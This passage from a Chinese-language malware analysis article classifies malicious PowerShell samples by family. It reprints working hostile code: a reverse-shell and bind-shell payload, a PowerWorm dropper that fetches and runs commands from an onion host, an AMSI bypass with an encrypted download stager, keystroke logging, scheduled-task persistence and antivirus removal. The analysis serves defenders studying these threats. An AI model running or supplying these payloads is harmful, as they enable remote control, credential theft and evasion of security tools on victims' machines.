"$winFunc::memset"
Unicorn修改版：
"^$[a-zA-Z0-9]{5,7} = '[DllImport.+Start-sleep 60};"
```

**4.16 Powerfun Reverse（100个样本，占比2.44%）**

**4.17 Powerfun Bind（2个样本，占比0.05%）**

我们在Powerfun中还发现了另一种代码执行方法，它们使用Metasploit的“windows/powershell_reverse_tcp”以及“powershell_bind_tcp”载荷来创建与目标系统的交互式shell。反弹型载荷通过base64进行编码，并通过使用System.Diagnostics.Process来实现进程的后台启动。

反弹型载荷：

```
if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'syswow64WindowsPowerShellv1.0powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-nop -w hidden -c $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String(''H4sIAFHL6FcCA71W6nlhxGUKAAA=''));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);
```

绑定型载荷使用System.Net.Sockets.TCPClient创建一个TCP listener侦听实例，将收到的PowerShell脚本传递给Invoke-Expression。

绑定型载荷：

```
$client = New-Object System.Net.Sockets.TCPClient("192.168.56.144",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..255|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2&amp;gt;&amp;amp;1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "&amp;gt; ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

**4.18 PowerWorm（19个样本，占比0.49%）**

PowerWorm是TrendMicro在2014年定义的一个恶意软件族群，具有通过感染Office文DOC（X）、XLS（X）文档进行传播的能力。此类PowerShell代码在真正的命令之间插入了垃圾数据进行混淆。

```
'xneZtEDC';$ErrorActionPreference = 'SilentlyContinue';'uqaaPxuaCN';'DOBHbJqlkRM';$kn = (get-wmiobject Win32_ComputerSystemProduct).UUID;'WVy';'gKEZgPRMl';if ((gp HKCU:\SoftwareMicrosoftWindowsCurrentVersionRun) -match $kn){;'mUzql';'jsvZDTQITNa';(Get-Process -id $pid).Kill();'NgpYRhj';'hVXjCtDvBc';};'tUVXQmXbZ';'lkTzhJZHwxU';'McPzodeY';'vNNYv';function e($dkez){;'TfPD';'WTw';$jt = (((iex "nslookup -querytype=txt $dkez 8.8.8.8") -match '"') -replace '"', '')[0].Trim();'HdCjwAD';'sVSjtZRvr';$ovg.DownloadFile($jt, $tg);'raVw';'OQNdBkS';$ei = $ke.NameSpace($tg).Items();'OgnucmQlK';'Qfqxov';$ke.NameSpace($sa).CopyHere($ei, 20);'GBMdJNr';'VMWS';rd $tg;'pnoFau';'SedloE';};'NxPZPIV';'ypi';'AFElBzCp';'bYRWML';'UYANxqtLg';'QBC';$sa = $env:APPDATA + '' + $kn;'Eaxyty';'IwuaOh';if (!(Test-Path $sa)){;'amYmrKg';'vWAgqtEB';$qr = New-Item -ItemType Directory -Force -Path $sa;'GqNII';'HNPIQutUpGv';$qr.Attributes = "Hidden", "System", "NotContentIndexed";'MuRuRa';'CmlkCszVCO';};'ZdmIGyj';'nAYhOpvWV';'BIAgIntvoU';'GJTBzyjr';$zul=$sa+ 'tor.exe';'swInqmX';'LTXwOFNSuL';$axs=$sa+ 'polipo.exe';'qkI';'WJPoaNnarn';$tg=$sa+''+$kn+'.zip';'Sgw';'fYthyZ';$ovg=New-Object System.Net.WebClient;'Ils';'GRldQfFnfQK';$ke=New-Object -C Shell.Application;'vVoutJQ';'gHXAsaxc';'llaetDv';'Zix';if (!(Test-Path $zul) -or !(Test-Path $axs)){;'QtJINrwhS';'XkAxtKLAJ';e 'i.vankin.de';'QqVujkSIPS';'dZdn';};'GoemQSlIB';'IOcJU';'FYTMzpCupR';'qEnstu';if (!(Test-Path $zul) -or !(Test-Path $axs)){;'ZGtSt';'mHkBgIOsU';e 'gg.ibiz.cc';'sDtXmE';'xSBk';};'YaiaAJqKPin';'gFVK';'TumvJVvJKRm';'ULQwp';$pj=$sa+'roaminglog';'numdmmhA';'ytEF';saps $zul -Ar " --Log `"notice file $pj`"" -wi Hidden;'JCBc';'CjHbOtf';do{sleep 1;$xxl=gc $pj}while(!($xxl -match 'Bootstrapped 100%: Done.'));'wYtpNVJtdz';'XggiQIPFt';saps $axs -a "socksParentProxy=localhost:9050" -wi Hidden;'dlV';'zVLSO';sleep 7;'FzlDdEynuUz';'Ci';$zpp=New-Object System.Net.WebProxy("localhost:8123");'MsOkmLs';'zRW';$zpp.useDefaultCredentials = $true;'PWXVXIMqb';'lAy';$ovg.proxy=$zpp;'gEkdkGPjVp';'xerooSjz';$ca='http://powerwormjqj42hu[.]onion/get.php?s=setup&amp;amp;mom=14C6EFBB-F19D-DC11-83A7-001B38A0DF85&amp;amp;uid=' + $kn;'SGCFq';'GkVVnp';while(!$qmh){$qmh=$ovg.downloadString($ca)};'rHo';'jtshvrR';if ($qmh -ne 'none'){;'Ju';'VuUTlp';iex $qmh;'blhE';'AeIepyNd';};'whSp';
```

进行初步整理后，代码如下：


```
$ErrorActionPreference = 'SilentlyContinue';
$kn = (get-wmiobject Win32_ComputerSystemProduct).UUID;
if ((gp HKCU:\SoftwareMicrosoftWindowsCurrentVersionRun) -match $kn) {;
(Get-Process -id $pid).Kill();
};
function e($dkez){;
$jt = (((iex "nslookup -querytype=txt $dkez 8.8.8.8") -match '"') -replace '"', '')[0].Trim();
$ovg.DownloadFile($jt, $tg);
$ei = $ke.NameSpace($tg).Items();
$ke.NameSpace($sa).CopyHere($ei, 20);
rd $tg;
};
$sa = $env:APPDATA + '' + $kn;
if (!(Test-Path $sa)){;
$qr = New-Item -ItemType Directory -Force -Path $sa;
$qr.Attributes = "Hidden", "System", "NotContentIndexed";
};
$zul=$sa+ 'tor.exe';
$axs=$sa+ 'polipo.exe';
$tg=$sa+''+$kn+'.zip';
$ovg=New-Object System.Net.WebClient;
$ke=New-Object -C Shell.Application;
if (!(Test-Path $zul) -or !(Test-Path $axs)){;
e 'i.vankin.de';
};
if (!(Test-Path $zul) -or !(Test-Path $axs)){;
e 'gg.ibiz.cc';
};
$pj=$sa+'roaminglog';
saps $zul -Ar " --Log `"notice file $pj`"" -wi Hidden;
do{
sleep 1;
$xxl=gc $pj
} while(!($xxl -match 'Bootstrapped 100%: Done.'));
saps $axs -a "socksParentProxy=localhost:9050" -wi Hidden;
sleep 7;
$zpp=New-Object System.Net.WebProxy("localhost:8123");
$zpp.useDefaultCredentials = $true;
$ovg.proxy=$zpp;
$ca='http://powerwormjqj42hu[.]onion/get.php?s=setup&amp;amp;mom=&amp;amp;uid=' + $kn;
while(!$qmh){
$qmh=$ovg.downloadString($ca)
};
if ($qmh -ne 'none'){;
iex $qmh;
};
```

该代码通过请求DNS TXT记录获取软件的URL下载地址，从该地址下载Tor和Polipo，利用这些软件持续请求传递给Invoke-Expression的新的PowerShell命令。Matt Graeber在分析这类恶意软件的全部功能方面做了非常出色的研究工作，给出了软件底层PowerShell代码的去混淆和注释版本。

**4.19 Veil Stream（7个样本，占比0.17%）**

此类变种使用的技术与“Powerfun Reverse”变种类似，将bae64字符串中的PowerShell代码插入内存，使用Invoke-Expression执行真正的shellcode载荷。代码的结构与Veil框架对应。

```
Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String('rVZtb5tIEP4eKf9+nJvw==')))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();
```

**（三）本地持久化类别**

此类PowerShell代码的主要目的是实现宿主机的本地持久化。

**4.20 Scheduled Task COM（11个变量，占比0.27%）**

此类变种创建计划任务运行恶意二进制文件以实现持久化机制。样本中使用的PE文件来自于所下载的“minicraft.exe”，通过下面所示的PowerShell代码执行。之所以这么做可能是因为使用PowerShell比使用原始下载二进制代码更容易完成这一任务。

代码所用到的技术与之前的Retefe银行木马有关。


```
$TaskName = "Microsoft Windows Driver Update"
$TaskDescr = "Microsoft Windows Driver Update Services"
$TaskCommand = "C:ProgramDataWindowsUpgrademinecraft.exe"
$TaskScript = ""
$TaskArg = ""
$TaskStartTime = [datetime]::Now.AddMinutes(1)
$service = new-object -ComObject("Schedule.Service")
$service.Connect()
$rootFolder = $service.GetFolder("")
$TaskDefinition = $service.NewTask(0)
$TaskDefinition.RegistrationInfo.Description = "$TaskDescr"
$TaskDefinition.Settings.Enabled = $true
$TaskDefinition.Settings.Hidden = $true
$TaskDefinition.Settings.RestartCount = "5"
$TaskDefinition.Settings.StartWhenAvailable = $true
$TaskDefinition.Settings.StopIfGoingOnBatteries = $false
$TaskDefinition.Settings.RestartInterval = "PT5M"
$triggers = $TaskDefinition.Triggers
$trigger = $triggers.Create(8)
$trigger.StartBoundary = $TaskStartTime.ToString("yyyy-MM-dd'T'HH:mm:ss")
$trigger.Enabled = $true
$trigger.Repetition.Interval = "PT5M"
$TaskDefinition.Settings.DisallowStartIfOnBatteries = $true
$Action = $TaskDefinition.Actions.Create(0)
$action.Path = "$TaskCommand"
$action.Arguments = "$TaskArg"
$rootFolder.RegisterTaskDefinition("$TaskName",$TaskDefinition,6,"System",$null,5)
SCHTASKS /run /TN $TaskName
```

**4.21 VB Task（10个样本，占比0.24%）**

此类PowerShell代码最初来自于某个内嵌PowerShell脚本的PE文件，通过运行VB脚本来创建计划任务。VB脚本一旦执行就会启动另一个PowerShell脚本。


```
$path= "$env:userprofileappdatalocalmicrosoftWindows"
if(-not(Test-Path -Path($path)))
{mkdir $path}
$fileout="$pathL69742.vbs";
$encstrvbs="c2V0IHdzcyA9IENyZWF0ZU9iamVjdCgiV1NjcmlwdC5TaGVsbCIpDQpzdHIgPSAicG93ZXIiICYgInNoIiAmICJlbGwiICYgIi5lIiAmICJ4ZSAtTm9QIC1zdGEgLU5vbkkgLWUiICYgInhlIiAmICJjIGJ5cCIgJiAiYXMiICYgInMgLWZpIiAmICJsZSAiDQpwYXRoID0gIiNkcGF0aCMiDQpzdHIgPSBzdHIgKyBwYXRoICsgIlxtYy5wczEiDQp3c3MuUnVuIHN0ciwgMCANCg0K";
$bytevbs=[System.Convert]::FromBase64String($encstrvbs);
$strvbs=[System.Text.Encoding]::ASCII.GetString($bytevbs);
$strvbs = $strvbs.replace('#dpath#',$path);
set-content $fileout $strvbs;
$tmpfile="$env:TEMPU1848931.TMP";
$pscode_b64  =get-content $tmpfile | out-string;
$pscode_b64=$pscode_b64.trim();
$pscode = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($pscode_b64))
$id = [string](get-random -min 10000 -max 100000)
$pscode = $pscode.replace('#id#',$id);
set-content "$pathmc.ps1" $pscode
$taskstr="schtasks /create /F /sc minute /mo 2 /tn ""GoogleServiceUpdate"" /tr """"$fileout""""   ";
iex 'cmd /c $taskstr';
{{CODE}}
The base64 decoded VBScript –
{{CODE}}
set wss = CreateObject("WScript.Shell")
str = "power" &amp;amp; "sh" &amp;amp; "ell" &amp;amp; ".e" &amp;amp; "xe -NoP -sta -NonI -e" &amp;amp; "xe" &amp;amp; "c byp" &amp;amp; "as" &amp;amp; "s -fi" &amp;amp; "le "
path = "#dpath#"
str = str + path + "mc.ps1"
wss.Run str, 0
```

**4.22 DynAmite Launcher （6个样本，占比0.15%）**

**4.23 DynAmite KL（1个样本，占比0.02%）**

DynAmite是一个“恶意软件生成工具包”，可以根据用户定制功能，创建恶意软件。

DynAmite允许用户组合他们所需要的功能，生成一个PE封装文件，利用PowerShell命令执行所定制的任务。我所收集到的此类代码主要来自于公开工具，其中变量名和变量位置可以有多种不同表现。

“DynAmite Launcher”变种通过计划任务完成本地持久化目的。以下是此类变种的三种不同表现形式，这三种样本可能由DynAmite使用不同的版本和配置生成。


```
schtasks.exe /create /TN "MicrosoftWindowsDynAmiteBackdoor" /XML C:WindowsTemptask.xml
schtasks.exe /create /TN "MicrosoftWindowsDynAmiteKeylogger" /XML C:WindowsTemptask2.xml
SCHTASKS /run /TN "MicrosoftWindowsDynAmiteBackdoor"
SCHTASKS /run /TN "MicrosoftWindowsDynAmiteKeylogger"
Remove-Item "C:WindowsTemp*.xml"
#create backdoor task
schtasks.exe /create /TN "MicrosoftWindowsDynAmiteDynAmite" /XML C:WindowsTempdynatask.xml
#create upload task
schtasks.exe /create /TN "MicrosoftWindowsDynAmiteUploader" /XML C:WindowsTempupltask.xml
#run backdoor task
SCHTASKS /run /TN "MicrosoftWindowsDynAmiteDynAmite"
#create registry entries for keylogger and screenspy
New-ItemProperty -path HKLM:SOFTWAREMicrosoftWindowsCurrentVersionRun -Name Keylogger -PropertyType String -Value "C:Windowsdynakey.exe"
New-ItemProperty -path HKLM:SOFTWAREMicrosoftWindowsCurrentVersionRun -Name ScreenSpy -PropertyType String -Value "C:Windowsdynascr.exe"
#run keylogger and screenspy
C:Windowsdynakey.exe
C:Windowsdynascr.exe
#cleanup temp folder
Remove-Item "C:WindowsTemp*"
$loot = ($env:LOCALAPPDATA + "dyna"); md $loot
certutil -decode res.crt ($loot + "res"); certutil -decode kl.crt ($loot + "kl.exe"); certutil -decode st.crt ($loot + "st.exe");  certutil -decode cry.crt ($loot + "cry.exe"); certutil -decode t1.crt ($env:TEMP + "t1.xml"); certutil -decode t2.crt ($env:TEMP + "t2.xml"); certutil -decode t3.crt ($env:TEMP + "t3.xml"); certutil -decode t4.crt ($env:TEMP + "t4.xml"); certutil -decode t5.crt ($env:TEMP + "t5.xml"); certutil -decode bd.crt C:ProgramDatabd.exe
schtasks.exe /create /TN "MicrosoftWindowsWindows Printer Manager1" /XML ($env:TEMP + "t1.xml")
schtasks.exe /create /TN "MicrosoftWindowsWindows Printer Manager2" /XML ($env:TEMP + "t2.xml")
schtasks.exe /create /TN "MicrosoftWindowsWindows Printer Manager3" /XML ($env:TEMP + "t3.xml")
schtasks.exe /create /TN "MicrosoftWindowsWindows Printer Manager4" /XML ($env:TEMP + "t4.xml")
schtasks.exe /create /TN "MicrosoftWindowsWindows Printer Manager5" /XML ($env:TEMP + "t5.xml")
schtasks.exe /run /TN "MicrosoftWindowsWindows Printer Manager1"
schtasks.exe /run /TN "MicrosoftWindowsWindows Printer Manager2"
schtasks.exe /run /TN "MicrosoftWindowsWindows Printer Manager3"
schtasks.exe /run /TN "MicrosoftWindowsWindows Printer Manager4"
schtasks.exe /run /TN "MicrosoftWindowsWindows Printer Manager5"
Remove-Item ($env:TEMP + "*.xml") -Recurse –Force
```

“DynAmite KL”变种是该套件的键盘记录器组件，但其直接来源于对老版本PowerSploit的Get-Keystrokes函数的改造升级。以下是对老版本Get-Keystrokes以及“DynAmite KL“代码的比较，从中我们可以看出后者对变量位置及类型进行了修改。

Get-Keystrokes代码：


```
$LeftShift    = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::LShiftKey) -band 0x8000) -eq 0x8000
$RightShift   = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::RShiftKey) -band 0x8000) -eq 0x8000
$LeftCtrl     = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::LControlKey) -band 0x8000) -eq 0x8000
$RightCtrl    = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::RControlKey) -band 0x8000) -eq 0x8000
$LeftAlt      = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::LMenu) -band 0x8000) -eq 0x8000
$RightAlt     = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::RMenu) -band 0x8000) -eq 0x8000
$TabKey       = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Tab) -band 0x8000) -eq 0x8000
$SpaceBar     = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Space) -band 0x8000) -eq 0x8000
$DeleteKey    = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Delete) -band 0x8000) -eq 0x8000
$EnterKey     = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Return) -band 0x8000) -eq 0x8000
$BackSpaceKey = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Back) -band 0x8000) -eq 0x8000
$LeftArrow    = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Left) -band 0x8000) -eq 0x8000
$RightArrow   = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Right) -band 0x8000) -eq 0x8000
$UpArrow      = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Up) -band 0x8000) -eq 0x8000
$DownArrow    = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Down) -band 0x8000) -eq 0x8000
$LeftMouse    = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::LButton) -band 0x8000) -eq 0x8000
$RightMouse   = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::RButton) -band 0x8000) -eq 0x8000
if ($LeftShift -or $RightShift) {$LogOutput += '[Shift]'}
if ($LeftCtrl  -or $RightCtrl)  {$LogOutput += '[Ctrl]'}
if ($LeftAlt   -or $RightAlt)   {$LogOutput += '[Alt]'}
if ($TabKey)       {$LogOutput += '[Tab]'}
if ($SpaceBar)     {$LogOutput += '[SpaceBar]'}
if ($DeleteKey)    {$LogOutput += '[Delete]'}
if ($EnterKey)     {$LogOutput += '[Enter]'}
if ($BackSpaceKey) {$LogOutput += '[Backspace]'}
if ($LeftArrow)    {$LogOutput += '[Left Arrow]'}
if ($RightArrow)   {$LogOutput += '[Right Arrow]'}
if ($UpArrow)      {$LogOutput += '[Up Arrow]'}
if ($DownArrow)    {$LogOutput += '[Down Arrow]'}
if ($LeftMouse)    {$LogOutput += '[Left Mouse]'}
if ($RightMouse)   {$LogOutput += '[Right Mouse]'}
```

DynAKey函数代码：


```
$LeftShift = $ImportDll::GetAsyncKeyState(160)
$RightShift = $ImportDll::GetAsyncKeyState(161)
$LeftCtrl = $ImportDll::GetAsyncKeyState(162)
$RightCtrl = $ImportDll::GetAsyncKeyState(163)
$LeftAlt = $ImportDll::GetAsyncKeyState(164)
$RightAlt = $ImportDll::GetAsyncKeyState(165)
$TabKey = $ImportDll::GetAsyncKeyState(9)
$SpaceBar = $ImportDll::GetAsyncKeyState(32)
$DeleteKey = $ImportDll::GetAsyncKeyState(127)
$EnterKey = $ImportDll::GetAsyncKeyState(13)
$BackSpaceKey = $ImportDll::GetAsyncKeyState(8)
$LeftArrow = $ImportDll::GetAsyncKeyState(37)
$RightArrow = $ImportDll::GetAsyncKeyState(39)
$UpArrow = $ImportDll::GetAsyncKeyState(38)
$DownArrow = $ImportDll::GetAsyncKeyState(34)
$LeftMouse = $ImportDll::GetAsyncKeyState(1)
$RightMouse = $ImportDll::GetAsyncKeyState(2)
if ((($LeftShift -eq -32767) -or ($RightShift -eq -32767)) -or (($LeftShift -eq -32768) -or ($RightShfit -eq -32768))) {$LogOutput += '[Shift] '}
if ((($LeftCtrl -eq -32767) -or ($LeftCtrl -eq -32767)) -or (($RightCtrl -eq -32768) -or ($RightCtrl -eq -32768))) {$LogOutput += '[Ctrl] '}
if ((($LeftAlt -eq -32767) -or ($LeftAlt -eq -32767)) -or (($RightAlt -eq -32767) -or ($RightAlt -eq -32767))) {$LogOutput += '[Alt] '}
if (($TabKey -eq -32767) -or ($TabKey -eq -32768)) {$LogOutput += '[Tab] '}
if (($SpaceBar -eq -32767) -or ($SpaceBar -eq -32768)) {$LogOutput += '[SpaceBar] '}
if (($DeleteKey -eq -32767) -or ($DeleteKey -eq -32768)) {$LogOutput += '[Delete] '}
if (($EnterKey -eq -32767) -or ($EnterKey -eq -32768)) {$LogOutput += '[Enter] '}
if (($BackSpaceKey -eq -32767) -or ($BackSpaceKey -eq -32768)) {$LogOutput += '[Backspace] '}
if (($LeftArrow -eq -32767) -or ($LeftArrow -eq -32768)) {$LogOutput += '[Left Arrow] '}
if (($RightArrow -eq -32767) -or ($RightArrow -eq -32768)) {$LogOutput += '[Right Arrow] '}
if (($UpArrow -eq -32767) -or ($UpArrow -eq -32768)) {$LogOutput += '[Up Arrow] '}
if (($DownArrow -eq -32767) -or ($DownArrow -eq -32768)) {$LogOutput += '[Down Arrow] '}
if (($LeftMouse -eq -32767) -or ($LeftMouse -eq -32768)) {$LogOutput += '[Left Mouse] '}
if (($RightMouse -eq -32767) -or ($RightMouse -eq -32768)) {$LogOutput += '[Right Mouse] '}
```

**（四）其他技术类别**

**4.24 AMSI Bypass（8个样本，占比0.20%）**

反恶意软件扫描接口（Antimalware Scan Interface, AMSI）是微软在Windows10中新增的一项功能，旨在为应用程序和反病毒软件建立顺畅的通信渠道。理想情况下，应用程序（在本文中为PowerShell应用）在运行时会对从本地或远程获取到的脚本去混淆处理，通过AMSI接口传递给反病毒软件进行安全性扫描。如果反病毒软件判定脚本具有恶意性质，应用程序会阻止脚本的进一步运行。

Matt Graeber发布了一行Twitter短文，告诉人们如何通过将“amsiInitFailed“设置为”True“来绕过AMSI机制，这种设置会让防病毒软件误以为AMSI失效从而绕过此项检查。

```
[ReF].ASSEmbly.GetTYpe('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GeTFIElD('amsiInitFailed','NonPublic,Static').SetVAlue($Null,$True)};[SySteM.Net.SErviCEPOINTMaNAger]::ExPeCt100ConTinue=0;$wC=NEW-OBjEcT System.NET.WebClieNt;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$Wc.HEAdERs.ADD('User-Agent',$u);$wC.PRoxY=[SYStEm.NET.WEBREQuEst]::DeFaUlTWEbProXY;$Wc.ProXY.CREDenTIALs = [SYSteM.NEt.CReDentIalCAcHe]::DeFAulTNetwORKCREdEntialS;$K=[SySTEm.TexT.EncodING]::ASCII.GETBYteS('Dv,inKZ&amp;lt;@{3mjG4&amp;amp;1k:Vcl7o)EY*J?6x');$R={$D,$K=$ArGS;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-Bxor$S[($S[$I]+$S[$H])%256]}};$Wc.HEaDERs.ADD("Cookie","session=Pu8sEnIpxIwINbUOVsxlL66DoHA=");$ser='http://35.165.38[.]15:80';$t='/login/process.php';$dATa=$WC.DowNLOadDAtA($ser+$T);$IV=$DaTA[0..3];$Data=$DaTa[4..$DAtA.leNgTH];-JoIn[CHAr[]](&amp;amp; $R $data ($IV+$K))|IEX
```

以上代码与PowerShell Empire中的EncryptedScriptDropper存在类似异或处理特征，可能与之直接有关，或者参考了其中部分代码。

**4.25 PowerSploit GTS（3个样本，占比0.07%）**

此类变种直接来源于PowerSploit的Get-TimedScreenshot模块。以下代码每隔两秒抓取一次屏幕截图。


```
function Get-TimedScreenshot
{
    [CmdletBinding()] Param(
        [Parameter(Mandatory=$True)]
        [ValidateScript({Test-Path -Path $_ })]
        [String] $Path,
        [Parameter(Mandatory=$True)]
        [Int32] $Interval,
        [Parameter(Mandatory=$True)]
        [String] $EndTime
    )
    Function Get-Screenshot {
       $ScreenBounds = [Windows.Forms.SystemInformation]::VirtualScreen
       $ScreenshotObject = New-Object Drawing.Bitmap $ScreenBounds.Width, $ScreenBounds.Height
       $DrawingGraphics = [Drawing.Graphics]::FromImage($ScreenshotObject)
       $DrawingGraphics.CopyFromScreen( $ScreenBounds.Location, [Drawing.Point]::Empty, $ScreenBounds.Size)
       $DrawingGraphics.Dispose()
       $ScreenshotObject.Save($FilePath)
       $ScreenshotObject.Dispose()
    }
    Try {
        #load required assembly
        Add-Type -Assembly System.Windows.Forms
        Do {
            #get the current time and build the filename from it
            $Time = (Get-Date)
            [String] $FileName = "$($Time.Month)"
            $FileName += '-'
            $FileName += "$($Time.Day)"
            $FileName += '-'
            $FileName += "$($Time.Year)"
            $FileName += '-'
            $FileName += "$($Time.Hour)"
            $FileName += '-'
            $FileName += "$($Time.Minute)"
            $FileName += '-'
            $FileName += "$($Time.Second)"
            $FileName += '.png'
            [String] $FilePath = (Join-Path $Path $FileName)
            Get-Screenshot
            Start-Sleep -Seconds $Interval
        }
        While ((Get-Date -Format HH:mm) -lt $EndTime)
    }
    Catch {Write-Error $Error[0].ToString() + $Error[0].InvocationInfo.PositionMessage}
}
Get-TimedScreenshot -Path "$env:userprofileDesktop" -Interval 2 -EndTime 24:00
```

对于此类攻击，PowerShell代码只是攻击者在行动中使用的整套工具集中的一小部分，攻击者利用PowerShell代码以节省所需功能的研发时间。在这种攻击情况下，Excel宏文档首先会对内嵌的PowerShell进行解码运行并开始抓取屏幕截图，与此同时，宏也解码运行了其他PE文件执行后续攻击动作。

[](https://p3.ssl.qhimg.com/t01adc47ca62486ab8b.png)

图7. Excel宏对内嵌的PowerShell脚本及PE文件进行解码

**4.26 Remove AV（2个样本，占比0.05%）**

此类变种利用PowerShell强制卸载x86系统和x64系统下的反病毒软件，它遍历注册表中程序卸载键值，查找含有“*AVG*“的条目，在后台静默卸载所找到的每个实例。

```
$uninstall32s = gci "HKLM:SOFTWAREWow6432NodeMicrosoftWindowsCurrentVersionUninstall" | foreach { gp $_.PSPath } | ? { $_ -like "*AVG*" } | select UninstallString;$uninstall64s = gci "HKLM:SOFTWAREMicrosoftWindowsCurrentVersionUninstall" | foreach { gp $_.PSPath } | ? { $_ -like "*AVG*" } | select UninstallString;foreach($uninstall64 in $uninstall64s) {$uninstall64 = $uninstall64.UninstallString -Replace "MsiExec.exe","" -Replace "/I","" -Replace "/X","";$uninstall64 = $uninstall64.Trim();if($uninstall64 -like "*/mode=offline*"){}else{Write-Warning $uninstall64; start-process "msiexec.exe" -args "/x $uninstall64  /qn /norestart" -Wait }};foreach($uninstall32 in $uninstall32s) {$uninstall32 = $uninstall32.UninstallString -Replace "MsiExec.exe","" -Replace "/I","" -Replace "/X","";$uninstall32 = $uninstall32.Trim();if($uninstall32 -like "*/mode=offline*"){}else{Write-Warning $uninstall32; start-process "msiexec.exe" -args "/x $uninstall32  /qn /norestart" -Wait }};
```

**（五）其他小众类别******

在对样本进行尽可能细的分类之后，还有大约100个样本无法具体归到某一类中，这些样本通常使用了上文所述技术的定制组合。在此我会对其中值得注意的一些样本做个简单描述。

**4.27 Hidden Messages**

这个样本通过PowerShell将当前时间与内置时间进行比较，如果当前时间早于内置时间，样本则放弃运行。在代码尾部，攻击者留下了一个注释以表明他们所属的黑客组。

```
if ((Get-Date).Ticks -lt (Get-Date -Date '18-jan-2017 00:00:00').Ticks) {(New-Object System.Net.WebClient).DownloadFile('http://drobbox-api.dynu[.]com/update',"$env:tempupdate");Start-Process pythonw.exe "$env:tempupdate 31337"};#NIXU17{pow3r_t0_the_sh3lls}
```

另一个样本也留下了一些隐藏信息，如下所示：

```
while($true){Start-Sleep -s 120; $m=New-Object System.Net.WebClient;$pr = [System.Net.WebRequest]::GetSystemWebProxy();$pr.Credentials=[System.Net.CredentialCache]::DefaultCredentials;$m.proxy=$pr;$m.UseDefaultCredentials=$true;$m.Headers.Add('user-agent', 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 7.1; Trident/5.0)'); iex(($m.downloadstring('
https://raw.githubusercontent.com/rollzedice/js/master/drupal.js
  ')));}
```

分析该样本从GitHub上所下载的drupal.js文件，该脚本文件会终止PowerShell进程，并输出“Hello SOC/IR team! :-)“信息。鉴于文件中多处使用了“Test”字符串，我认为它可能是渗透测试或攻防演练中所用的脚本文件。

[](https://p4.ssl.qhimg.com/t016c6832f4990122b5.png)

图8. 结束PowerShell进程的JavaScript文件

**4.28 Process Killing**

此样本使用PowerShell完成特定目的，通常用来终止与恶意软件分析相关的多个进程。

```
kill -processname Taskmgr, ProcessHacker*, Procmon*, Procexp*, Procdump* -force
```

**4.29 Layers of Obfuscation**

这是本文分析的最后一个样本，它似乎与“PowerSploit GTS”变种中的代码有关，两者使用的原始宏基本一致，但此样本没有使用“PowerSploit GTS”的其他代码。

该样本使用多层混淆技术以掩盖其攻击行为。

第一层：

带有宏的Excel文档从单元格中提取base64编码的数据，将数据传递给PowerShell的EncodedCommand参数加以运行。

[](https://p5.ssl.qhimg.com/t015319b5d24f3c5c21.png)

第二层：

解码后的base64数据是一长串int类型数组，转换为char型字符串后作为另一个PowerShell脚本运行。

```
-JOIn (( 32 ,32 , 36 ,86 ,115 , 110 , 50,108 , 54, 32 ,61 , 32,32 , 91,116,121,112,101, 93 ,40 ,34,123 ,51 , 125 , 123, 48 ,125, 123, 49, 125, ,53, 45 ,49, 54,55 , 45,39, 44 ,39 ,101 , 46 , 97, 109, 97 , 122 ,111,110 ,97, 39, 44, 39 ,53,39, 44,39, 119 , 115, 46, 99 , 111 , 109 ,58, 56 , 48 , 39 ,44 ,39,45 , 119, 101 ,115 , 39,41, 41 , 59)|%{([inT]$_-AS [chAr]) } ) | iex
```

第三层：

解码后的数据使用了多种技术对自身进行混淆处理。第一种技术是在其他字符之间插入反引号字符，该字符将在运行时被忽略。这种技术与命令行中的字符注入技术类似。

第二种技术是在其他脚本语言中常见的技术，通过将字符串拆分为随机列表，通过调用特定值完成原始字符串的重建。

```
